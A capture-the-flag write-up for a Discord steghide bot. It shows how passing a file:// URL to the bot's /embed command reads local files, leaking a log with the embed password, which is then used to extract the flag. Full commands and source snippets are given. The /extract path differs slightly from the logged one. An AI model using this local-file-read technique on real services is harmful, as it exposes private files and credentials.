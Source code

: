 
# Stegbot

## Description:

Everybody loves steghide, so I made StegBot#2632 so that you can use it from Discord! Make sure to join our Discord server if you haven't already, and DM /info to StegBot to get started.

Steghide: https://github.com/perfectblue/ctf-writeups/tree/master/2020/csaw-quals-2020/take-it-easy#step-3
Discord server: https://discord.gg/WyUcFqrDjP
Stegbot source code: https://github.com/qxxxb/StegBot (from writing /info to the bot)

## Solution

The flag is stored in an environment variable called "FLAG"

The flag is embedded in bof.jpg at the bottom of the source code (happens once every time the bot restarts):

```typescript=
stegEmbed('bof.jpg', FLAG, randomString())
```

If we can get a hold of this output image and the password used to embed the flag, we can use the bot's /extract command to get the flag

Having a closer look at the stegEmbed function, we can see that the output path and the stegHide password are both logged:

```typescript=
logger.info({ imagePath, outputPath, password })
```

The log file is located at ./app.log:

```typescript=
const logger = pino(pino.destination('app.log'))
```

Curl allows getting local files with the syntax `curl file://<path>`

Looking at the source code, we can use the /embed bot command without a message to return an arbitrary file:

```typescript=
async function commandEmbed (interaction: CommandInteraction) {
  const imageURL = interaction.options.getString('image_url')!
  const imagePath = path.join(TMP_DIR, `${randomString()}.jpg`)
  downloadFile(imageURL, imagePath)

  const message = interaction.options.getString('message')
  const password = interaction.options.getString('password')

  if (!message) {
    await interaction.reply({
      content: "No message provided, so here's the blank image",
      files: [imagePath],
      ephemeral: true
    })
    return
  }
```

Looking at the jail.cfg file in the source code, we see that the app directory is mounted at /app inside the docker virtual machine

Now we can try to get a hold of the log file with the /embed command:
`/embed image_url:file:///app/app.log`
...
Success!
![](https://i.imgur.com/GWqmFH5.png)

Opening this file in `less`, we can see that the first entry has the following info:

```
{"level":30,"time":1634959870125,"pid":1,"hostname":"NSJAIL","imagePath":"bof.jpg","outputPath":"/tmp/images/a7fba042185aa216aaf2f87763b65724.jpg","password":"e3cde4ceae826098ba87716de396e028"}
```

Now we can use the /extract command with the info from the log:
`/extract image_url:file:///tmp/images/7fba042185aa216aaf2f87763b65724.jpg password: e3cde4ceae826098ba87716de396e028`

And then we get the flag:
![](https://i.imgur.com/AaVQSaa.png)
